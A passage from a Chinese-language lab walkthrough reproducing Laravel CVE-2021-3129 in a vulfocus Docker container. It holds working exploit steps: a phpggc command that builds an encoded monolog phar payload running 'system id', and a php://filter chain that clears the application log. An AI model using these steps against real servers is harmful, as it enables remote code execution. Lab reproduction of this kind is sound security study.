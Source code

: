 （8）可以用docker run命令直接启动漏洞环境了

`docker run -d -p 8080:8080 vulfocus/laravel-cve_2021_3129`

（9）访问http://ip:8080

### 2. **复现思路**

（1）清空log

（2）写入phar

（3）读取phar

### 3. **漏洞调试复现**

（1）在laravel的依赖里面找一条能够rce的链，如monolog/rce1。生成对应的phar文件，并将phar文件base64编码。

```
php -d 'phar.readonly=0' ./phpggc monolog/rce1 system id --phar phar -o php://output | base64 -w0 | python -c "import sys;print(''.join(['=' + hex(ord(i))[2:].zfill(2) + '=00' for i in sys.stdin.read()]).upper())"
```

<img src=".\图片8.png" style="zoom:150%;" />

（2）清空log文件

```
php://filter/write=convert.iconv.utf-8.utf-16be|convert.quoted-printable-encode|convert.iconv.utf-16be.utf-8|convert.base64-decode/resource=../storage/logs/laravel.log
```
